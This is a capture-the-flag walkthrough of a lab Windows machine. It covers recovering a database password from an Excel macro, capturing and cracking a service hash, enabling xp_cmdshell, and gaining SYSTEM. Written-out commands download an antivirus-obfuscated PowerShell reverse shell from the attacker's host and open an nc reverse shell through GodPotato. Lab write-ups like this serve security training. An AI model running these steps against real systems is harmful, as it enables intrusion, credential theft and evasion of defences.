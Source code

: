 #Pwned! 
```IP
10.10.10.125
```
# Enumeration
## SMB
nxc doesn't work for some reason, but smbclient does:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220113806.png?raw=true)
We can find an xlsm file inside the share:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220114042.png?raw=true)
The file was created a user called Luis
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220114517.png?raw=true)

## HTTP

# Exploitation
Let's try a phishing attack with a malicious xlsm
It wont work
It has already some macros, lets check them
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220115218.png?raw=true)
We find a password
```
PcwTWTHRwryjc$c6
```
It seems to respond to our password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120120.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120157.png?raw=true)
We can extract some more users and since what the macro is doing in an sql database connection we will try with impacket-mssql to connect to the database
```
impacket-mssqlclient Reporting@10.10.10.125 -windows-auth
```
We do some mssql enumerations but the databases doesn't seem to contain anything interesting. The users don't have hashes that we can crack, and we don't have xp_cmdshell in order to execute OS commands. Let's set up responder and try to get a call back with xp_dirtree in order to perform an smb relay attack:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120940.png?raw=true)
The command used being the following:
```
exec master.dbo.xp_dirtree '\\10.10.14.17\test'
```

And we get a hash for mssql-svc!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220121213.png?raw=true)
Let's crack the hash:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/mssql-svc.hash
```
And we get the following password:
```
corporate568
```
Let's try the new password on some services, the only one working will be mssql again
```
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```
We have code execution
```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
```
EXEC master..xp_cmdshell 'whoami'
```
When tryint to upload and execute some reverse shell the AV prevents us to do so:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220124742.png?raw=true)
We will need a tool to obfuscate the code
Let's create a nishang reverse shell and obfuscate it with https://github.com/JoelGMSec/Invoke-Stealth
Firstly we clone the repo and cd into it, and then copy the revshell into our directory and edit the contents of it to our IP and port:
```
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```
And in a powershell we obfuscate it with the following command:
```
./Invoke-Stealth.ps1 ../rev.ps1 --technique PyFuscation
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220130715.png?raw=true)
We transfer it with:
```
powershell wget http://10.10.14.17:8000/rev.ps1 -O C:\users\public\rev.ps1
```
And execute it with 
```
EXEC master..xp_cmdshell 'powershell  C:\users\public\rev.ps1'
```
We get first flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220131625.png?raw=true)

# PrivEsc
## Manual
we have impersonate priv
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220131529.png?raw=true)
Let's get a reverse shell with GodPotato
```
wget http://10.10.14.17/GodPotato-NET4.exe -O GodPotato-NET4.exe
```
```
wget http://10.10.14.17/nc64.exe -O nc.exe
```
```
.\GodPotato-NET4.exe -cmd ".\nc.exe -t -e C:\windows\system32\cmd.exe 10.10.14.17 1234"
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220132214.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement


